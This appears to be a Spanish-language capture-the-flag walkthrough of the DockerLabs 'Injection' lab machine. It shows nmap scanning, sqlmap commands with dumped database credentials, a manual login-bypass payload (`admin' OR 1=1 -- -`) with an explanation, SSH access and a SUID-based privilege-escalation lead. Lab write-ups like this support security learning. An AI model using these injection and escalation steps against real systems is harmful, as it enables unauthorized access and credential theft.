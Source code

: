 plataforma: https://dockerlabs.es/#/<br>
Mirror: https://mega.nz/file/wLN2nQ7B#p0YzUFAsrE3ilnJ9HzMr1hfsUq2DPYiDHlIU_9IEizU<br>
Nombre: Injection<br>
Dificultad: muy fácil<br>
Creador: El pingüino de Mario<br>
Herramientas:
 - Ping
 - NMAP
 - WhatWeb
 - SQLMAP
 - Puerto 22 SSH - SFTP



Cacptura Máquina:
![image](https://github.com/borazuwarah/CTFs-ByBorazuwarah/blob/main/CTFs-By%20borazuwarah/DockerLabs/Injection/Images/DockerLabs%20-%20Injection%20-%20Machine.png)

Deploy:

```sh fold:"Deploy injection machine"
sudo bash autodeploy.sh injection.tar
```


Ping para comprobar conectividad y ver el ttl: 64
![image](https://github.com/borazuwarah/CTFs-ByBorazuwarah/blob/main/CTFs-By%20borazuwarah/DockerLabs/Injection/Images/DockerLabs%20-%20Injection%20-%20Ping.png)

Reconocimiento
```sh fold:"Reconocimiento con nmap"
sudo nmap -sS -p- -sC -sV -Pn 172.17.0.2
```

Puertos abiertos:
![image](https://github.com/borazuwarah/CTFs-ByBorazuwarah/blob/main/CTFs-By%20borazuwarah/DockerLabs/Injection/Images/DockerLabs%20-%20Injection%20-%20Nmap.png)

Nos encontramos los puertos 
- 22
- 80
Primero investigamos el puerto 80
Web:
![image](https://github.com/borazuwarah/CTFs-ByBorazuwarah/blob/main/CTFs-By%20borazuwarah/DockerLabs/Injection/Images/DockerLabs%20-%20Injection%20-%20Web.png)

WhatWeb no nos da mucha información

![image](https://github.com/borazuwarah/CTFs-ByBorazuwarah/blob/main/CTFs-By%20borazuwarah/DockerLabs/Injection/Images/DockerLabs%20-%20Injection%20-%20Whatweb.png)

Intento varios Usuarios y contraseñas pero conm ninguno acccedo, en todos me da el mensaje:
Wrong Credentials

Vamos a ver algo más sobre eta web


Vamos a ver si con SqlMap podemos sacar algo:

```sh fold:"Sql map"
sqlmap -u http://172.17.0.2/index.php --forms --dbs --batch
# information_schema
# mysql
# performance_schema
# regyster
# sys
sqlmap -u http://172.17.0.2/index.php --forms -D --tables --batch
# [1 table]
# +-------+
# | users |
# +-------+
sqlmap -u http://172.17.0.2/index.php --forms -D -T users --columns --batch
# +----------+-------------+
# | Column   | Type        |
# +----------+-------------+
# | passwd   | varchar(30) |
# | username | varchar(30) |
# +----------+-------------+
sqlmap -u http://172.17.0.2/index.php --forms -D -T users -C passwd,username --dump --batch
# +------------------+----------+
# | passwd           | username |
# +------------------+----------+
# | KJSDFG789FGSDF78 | dylan    |
# +------------------+----------+

```
Otra forma de hacer el Sql Injection:
![image](https://github.com/borazuwarah/CTFs-ByBorazuwarah/blob/main/CTFs-By%20borazuwarah/DockerLabs/Injection/Images/DockerLabs%20-%20Injection%20-%20SQL%20Injection%20manual.png)

Explicacion:
Ahora bien, suponiendo que la consulta que busca un usuario en la base de datos es la siguiente:

```sql
SELECT * FROM usuarios WHERE username = 'admin' AND password = 'password';
```

Si insertamos la inyección SQL (`admin' OR 1=1 -- -`) en donde está el texto "admin", la consulta quedará de esta manera:

```sql
SELECT * FROM usuarios WHERE username = 'admin' OR 1=1 -- - AND password = 'password';
```
Esto es posible porque los parámetros de la consulta no están validados:
![image](https://github.com/borazuwarah/CTFs-ByBorazuwarah/blob/main/CTFs-By%20borazuwarah/DockerLabs/Injection/Images/DockerLabs%20-%20Injection%20-%20Codigo%20consulta%20sin%20validar.png)


Acceso con usuario dylan:

![image](https://github.com/borazuwarah/CTFs-ByBorazuwarah/blob/main/CTFs-By%20borazuwarah/DockerLabs/Injection/Images/DockerLabs%20-%20Injection%20-%20User%20access.png)

Vamos a intentar entrar por SSH con este usuario y esta contraseña:

Acceso por ssh con el usuario dylan:

![image](https://github.com/borazuwarah/CTFs-ByBorazuwarah/blob/main/CTFs-By%20borazuwarah/DockerLabs/Injection/Images/DockerLabs%20-%20Injection%20-%20SSH%20dylan%20user.png)


## Escalada de privilegios
sudo -l
![image](https://github.com/borazuwarah/CTFs-ByBorazuwarah/blob/main/CTFs-By%20borazuwarah/DockerLabs/Injection/Images/DockerLabs%20-%20Injection%20-%20sudo-l.png)

find / -perm -4000 2>/dev/null

![image](https://github.com/borazuwarah/CTFs-ByBorazuwarah/blob/main/CTFs-By%20borazuwarah/DockerLabs/Injection/Images/DockerLabs%20-%20Injection%20-%20Suid.png)

Buscamos en Gtfobins algunos de estos suid
![image](https://github.com/borazuwarah/CTFs-ByBorazuwarah/blob/main/CTFs-By%20borazuwarah/DockerLabs/Injection/Images/DockerLabs%20-%20Injection%20-%20gtfobbins%20env.png)
Encuentro env:
lo ejecutamos con las rutas absolutas


![image](https://github.com/borazuwarah/CTFs-ByBorazuwarah/blob/main/CTFs-By%20borazuwarah/DockerLabs/Injection/Images/DockerLabs%20-%20Injection%20-%20Escalada%20de%20privilegiso.png)]

DockerLabs - Injection -
